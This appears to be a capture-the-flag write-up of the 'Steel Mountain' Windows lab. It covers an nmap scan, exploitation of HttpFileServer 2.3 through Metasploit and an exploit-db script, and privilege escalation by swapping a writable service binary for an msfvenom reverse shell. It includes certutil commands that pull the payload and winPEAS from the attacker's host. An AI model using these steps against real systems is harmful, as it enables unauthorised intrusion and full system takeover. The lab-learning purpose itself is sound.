# Steel Mountain
![](https://i.imgur.com/hc9C0Uq.png)

- running a scan to know what is going on on our targets network
  
## Scan results

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.70.217
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:09 EST
Nmap scan report for 10.10.70.217
Host is up (0.32s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-01-30T07:13:28+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-01-29T06:47:42
|_Not valid after:  2024-07-30T06:47:42
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-01-30T07:13:21+00:00
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4c:5d:c0:bf:49 (unknown)
| smb2-time: 
|   date: 2024-01-30T07:13:22
|_  start_date: 2024-01-30T06:47:34
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1m49s, deviation: 0s, median: 1m49s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.59 seconds
```
- From the above result i see that is is a windows OS.
- it has a web-server running on both port `80` an `8080` 

navigating to the web-server on port `80` i found a picture of the employee of the month and nothing else
![](https://i.imgur.com/Y86ZcGU.png)
But when i view the page source i see where the web-server is serving that image from there backend server and the image is saved with a human name so it has to be `employee of the month` 
![](https://i.imgur.com/UM6jW86.png)
- Nothing else to see from here so i navigate to the second web-server `8080`
  
## Initial access

![](https://i.imgur.com/N2Mqb8e.png)
- i was able to see the service version of the web-server from the bottom of the web-page
i then search for the version of the sever and i found the full name of the file server running and a possible exploit
![](https://i.imgur.com/EPS1vh2.png)
clicking on the first link i was able to understand what i can use to get access 
![](https://i.imgur.com/NAk7cQw.png)
From some of the other search results i noticed some website said there is an exploit for this vulnerability on metasploit, so i start up metasploit and search using the `CVE` 
![](https://i.imgur.com/7N9yhzI.png)
Then i set the needed options and run the module to get a Meterpreter shell
![](https://i.imgur.com/tTohvwL.png)

checking information about the target system i have :

![](https://i.imgur.com/FuenHzR.png)
![](https://i.imgur.com/QdO5XPZ.png)
```bash
C:\Users\bill\Desktop
```

## Privilege Escalation

To enumerate this machine, i will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities
- "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.

![](https://i.imgur.com/faBcq6J.png)

```
To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell
```
![](https://i.imgur.com/WB7STAx.png)

![](https://i.imgur.com/cVE0o3M.png)

>[!note] 
>The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Using  msfvenom to generate a reverse shell as an Windows executable and naming it the exact name of the `AdvancedSystemCareService9` executable file: `Advanced.exe` and using the encoder `x86/shikata_ga_nai` 
![](https://i.imgur.com/gZ2SvMq.png)
Then i uploaded the executable file into the `Iobit` Directory on `Bill's` machine
![](https://i.imgur.com/64CVha2.png)
i type `shell` in the meterpreter prompt to get a windows shell and copy the `Advanced.exe` file into the `Advanced SystemCare` directory
![](https://i.imgur.com/LrWihXA.png)
in a new terminal i started a netcat listener on the port specified in the msfvenom payload i created earlier.
![](https://i.imgur.com/bhFwzWP.png)

Then i stop and restart the `AdvancedSystemCareService9` service and i got an `NTauthority\system` reverse shell to the listener
![](https://i.imgur.com/u8RqvZl.png)

![](https://i.imgur.com/ZkAw4fW.png)

![](https://i.imgur.com/Hdqz15q.png)

# Manual Foothold and exploitation

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to.

To begin we shall be using the same CVE `the exploit code from exploitdb` [here](https://www.exploit-db.com/download/39161)

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!.

- before i begin i restart the machine so all changes will reset back to default
after downloading the exploit i used nano to change some needed settings
![](https://i.imgur.com/l2GhBOB.png)
then i change the name of the Netcat binary i downloaded from `ncat.exe` to `nc.exe` because from the exploit code i see that it is calling `nc.exe` not `ncat.exe`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ mv ncat.exe nc.exe
```
1. i started a python server in the directory i have the `nc.exe` binary and also start a listener withe the port specified in the exploit the i run the exploit
![](https://i.imgur.com/ssJddjr.png)
2. i run the exploit again and this time i get a reverse shell connection
![](https://i.imgur.com/dYuLSpq.png)

![](https://i.imgur.com/o61hQWK.png)
### Privilege Escalation
I downloaded the WinpeasX64exe file from there official [Github](https://github.com/carlospolop/PEASS-ng/releases/download/20240128-3084e4e1/winPEASx64.exe)

I started another python web server in the directory i downnloaded it too and i created a directory on the target machine then use `certutil` to transfer the winPEAS binary to the target machine
![](https://i.imgur.com/c8bWfTj.png)

```powershell
certutil -urlcache -f http://10.6.92.85:80/winPEASx64.exe winPEASx64.exe
```
then i run the the winPEAS script:
![](https://i.imgur.com/fmtyfbU.png)
scrolling through the output i see this section about the unquoted path we used earlier
![](https://i.imgur.com/tCY7Sc4.png)
running `powershell -c get-service` , i can see that the service is running `sc stop AdvancedSystemCareService9` :
![](https://i.imgur.com/JOErDYc.png)

Then i moved into the Iobit directory and use `certutil` to download the advance.exe file i created earlier with msfvenom to the target machine (my python server is still running)

```powershell
certutil -urlcache -f http://10.6.92.85:80/Advanced.exe Advanced.exe
```

i copied the advanced.exe file to the `Advanced SystemCare` directory then i stop and restart the service `sc stop AdvancedSystemCareService9`then `sc start AdvancedSystemCareService9` 

- lastly i use netcat to listen on the port that is specified in my msfvenom payload and i got a higher privilege shell
![](https://i.imgur.com/xwUYqGP.png)


